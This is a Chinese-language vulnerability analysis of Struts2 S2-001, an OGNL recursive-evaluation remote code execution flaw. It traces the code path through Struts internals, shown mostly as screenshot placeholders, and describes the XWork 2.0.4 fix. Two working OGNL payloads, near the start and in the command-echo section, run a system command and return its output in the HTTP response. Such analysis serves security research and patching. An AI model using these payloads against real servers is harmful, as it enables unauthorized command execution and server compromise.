实验环境搭建网上挺多的,就不多说了

# 漏洞概要

Struts2-001是一个远程代码执行漏洞。struts2中有个名为`altSyntax`的特性，该特性允许在表单中提交包含`OGNL`表达式的字符串(一般是通过文本字段，即struts2的`<s:textfile>`标签)，且可对包含OGNL的表达式进行递归计算。

漏洞影响版本： **Struts 2.0.0 - Struts 2.0.8** 

# 流程分析:

poc

```k
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

 在params拦截器中,params拦截器会将客户端请求的数据设置到值栈(valueStack)中,在JSP界面中我们的动态数据将从值栈中取出

## Parms拦截器



**setParmeters:**



经过一系列处理之后进入我们的action



返回ERROR,根据我们struts.xml中的定义,将会返回到index.jsp中。并会对JSP进行一些处理。



当在 **JSP** 文件中遇到 **Struts2** 标签 **<s:textfield** 时，程序会先调用 **doStartTag** ,并将标签中的属性设置到 **TextFieldTag** 对象相应属性中。最后，在遇到 **/>** 结束标签的时候调用 **doEndTag** 方法。

## doEndTag



这里快进到对password属性进行处理

进入**this.component.end** 方法,再进入this.evaluateParams()方法



这里首先会将一些属性添加到parameters中,然后到达这里,如果我们开启了Ognl表达式支持(this.altSyntax()),程序会在属性的两端添加%\{\},而这个符号就是Ognl的识别标志。然后使用findValue方法从值栈中获得该表达式所对应的值



进入findValue



跟进translateVariables

前面会根据识别标志找到我们Ognl的起始位置和末尾,然后进入findValue方法,获取到了value



然后将Ognl的解析结果拼接回去



接着重新进入while循环,这次的expression的值就是我们的payload

又来到了我们的findValue方法,这次将我们的恶意ognl表达式进行了解析



## 命令回显

到此,我们的命令就执行完毕了,但接下来还有一个问题,就是我们的poc是如何进行回显的,这里使用calc命令看不到效果,这里建议先改成whoami命令

```java
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```



我们继续走,在end方法结束后,我们将进入mergeTemplate方法





使用了模板引擎Freemarker进行页面的构造，其中tempate参数中就包含了我们的#context中的`HttpServletResponse`对象,所以我们的payload中调用了`#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()`





# 漏洞修复

XWork 2.0.4中，改变了ognl表达式的解析方法从而不会产生递归解析，用户的输入也不会再解析执行。(借mochazz师傅的图)



# 参考

https://xz.aliyun.com/t/7915

https://xz.aliyun.com/t/2044

https://xz.aliyun.com/t/2672

https://mp.weixin.qq.com/s/dmH5lyMg16mjndfbv10n0A


